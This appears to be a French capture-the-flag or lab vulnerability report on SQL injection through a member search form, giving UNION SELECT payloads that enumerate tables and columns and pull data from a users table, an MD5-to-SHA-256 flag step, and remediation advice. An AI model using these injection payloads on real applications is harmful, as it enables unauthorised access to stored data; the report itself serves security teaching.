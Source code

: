 # Rapport de Vulnérabilité : Injection SQL

## Nom de la Faille
Injection SQL

## Description
Cette faille permet à un attaquant d'exécuter des requêtes SQL arbitraires via un formulaire de recherche de membre par ID. En exploitant cette faille, l'attaquant peut accéder à des informations sensibles de la base de données, telles que les noms de tables, les noms de colonnes et même les données stockées dans ces colonnes.

## Comment Exploiter la Faille

### Étape 1 : Découverte de la base de données
Pour connaître la base de données active sur laquelle nous sommes connectés, nous utilisons la commande suivante :
```
1 UNION ALL SELECT 1, DATABASE()
```

### Étape 2 : Récupération des tables
Pour obtenir la liste de toutes les tables de la base de données active, nous exécutons la commande suivante :
```
1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
```

### Étape 3 : Récupération des colonnes
Une fois les tables identifiées, nous récupérons les colonnes associées à chaque table avec la commande suivante :
```
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

### Étape 4 : Extraction du contenu des colonnes
Pour obtenir le contenu d'une colonne spécifique d'une table, nous utilisons :
```
1 AND 1=2 UNION SELECT {column_name}, null FROM users
```

### Étape 5 : Traitement des données extraites
Dans la colonne "Commentaire", nous obtenons un message nous indiquant de :
1. Déchiffrer le code en MD5.
2. Mettre le résultat en minuscule.
3. Encrypter ce résultat en SHA-256.

### Exemple de traitement
- Code MD5 extrait : `5ff9d0165b4f92b14994e5c685cdce28`
- Décodage MD5 : `FortyTwo`
- Conversion en minuscule : `fortytwo`
- Encodage SHA-256 :
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Comment Résoudre la Faille
Pour corriger cette vulnérabilité, suivez ces étapes :

1. **Paramétrisation des requêtes** : Utilisez des instructions SQL paramétrées pour éviter l'exécution directe de chaînes de caractères.
2. **Échappement des entrées utilisateurs** : Vérifiez et échappez toutes les entrées pour empêcher l'injection SQL.
3. **Validation côté serveur** : Ne faites jamais confiance aux données envoyées par l'utilisateur.
4. **Journalisation** : Surveillez les tentatives suspectes d'injection pour détecter toute activité malveillante.

## Conclusion
L'injection SQL est une vulnérabilité critique pouvant exposer des données sensibles. L'utilisation de requêtes paramétrées, la validation côté serveur et l'échappement approprié des entrées sont des pratiques indispensables pour sécuriser les applications web contre cette attaque.
